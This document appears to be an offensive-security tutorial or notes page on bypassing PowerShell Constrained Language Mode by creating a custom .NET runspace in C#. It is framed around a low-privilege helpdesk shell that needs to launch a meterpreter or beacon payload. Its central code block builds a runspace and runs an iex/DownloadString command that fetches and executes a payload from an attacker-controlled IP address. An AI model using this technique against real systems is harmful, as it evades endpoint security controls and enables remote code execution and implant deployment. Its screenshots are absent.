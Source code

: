 PowerShell Constrained Language is a [language mode](https://blogs.msdn.microsoft.com/powershell/2017/04/10/a-comparison-of-shell-and-scripting-language-security/?ref=secjuice.com) of PowerShell designed to support day-to-day administrative tasks, yet  restrict access to sensitive language elements that can be used to  invoke arbitrary Windows APIs. Suppose we have a shell as a low-priv user at a helpdesk and need to execute a payload for meterpreter or beacon.
 
![](Pasted%20image%2020241102011802.png)

even on disk:
![](Pasted%20image%2020241102011819.png)


## .NET Runspaces
Runspaces helps in creating another instance of Powershell. Each powershell session you use is said to be a runspace. Using runspaces you can create a parallel instance and execute your commands through it. The powershell CLI is just an interpreter of the .NET assembly, so it's perfectly possible to create our own. So, lets create one. :)

![](Pasted%20image%2020241102011842.png)

- Make sure you have System.Automation.Management.dll added to the project.
```
Runspace run = RunspaceFactory.CreateRunspace();
run.Open();
```

- The [RunspaceFactory.](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.runspaces.runspacefactory?view=powershellsdk-1.1.0&ref=secjuice.com)Create() method helps in creating a new instance of the Runspace named run.
```
PowerShell shell = PowerShell.Create();
shell.Runspace = run;
```

- The [PowerShell](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.powershell?view=powershellsdk-1.1.0&ref=secjuice.com) shell object is created and our Runspace "run" is set as it's runspace.
```
String exec = "iex(new-object net.webclient).DownloadString('http://192.168.0.104/payload')";
shell.AddScript(exec);
shell.Invoke();
```

We assign our desired command to exec, then use AddScript() to add it to the pipeline and execute it using Invoke(). Keep in mind that there's no output from our code and it's blind for now. Let's run it on the target and see if we succeed.

![](Pasted%20image%2020241102012001.png)


Now, lets try to see what's the LanguageMode of the created RunSpace:
![](Pasted%20image%2020241102012023.png)

I modified the script a bit to return the commands output to a collection and print it out. Let's see what's up now.
![](Pasted%20image%2020241102012043.png)


more on : https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/